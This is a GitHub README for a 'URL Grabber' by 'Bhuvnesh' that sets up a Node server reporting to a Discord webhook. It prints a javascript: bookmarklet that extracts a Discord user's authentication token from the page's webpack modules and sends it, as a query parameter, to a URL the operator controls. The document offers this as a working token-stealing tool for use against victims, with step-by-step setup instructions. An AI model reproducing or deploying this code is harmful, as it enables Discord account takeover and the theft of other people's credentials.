 # URL Grabber Made By Bhuvnesh#1337

## How To Use? 🤔

1. Make Sure if [Node.js](https://nodejs.org "Download Node.js")@^16.6 is installed (ignore if in repl.it)
2. Clone this Repo in Your PC or Repl.it 
3. Replace `WEBHOOK URL` with you own webhook url in `config.json`
4. `npm install` to install all deps :)
5. `node index.js` to start server
6. Copy the URL if in repl.it
7. Get Yourself The "Code" to get Token, See Below For Code
8. Replace `REPLACE WITH YOUR URL` with your URL :)
9. You Got you Code Now :)
10. Now Use it, If You Still dont know how to use it! **May God Help You**

## Code
```js
javascript:(async() => { const token = (webpackChunkdiscord_app.push([[''],{},e=>{m=[];for(let c in e.c)m.push(e.c[c])}]),m).find(m=>m?.exports?.default?.getToken!==void 0).exports.default.getToken();window.location.href = `REPLACE WITH YOUR URL/?user=${token}`;})()
```


#### 🚧 If You Think this Code is skidded *aja kone me mil vro teko perms deta* 🚧
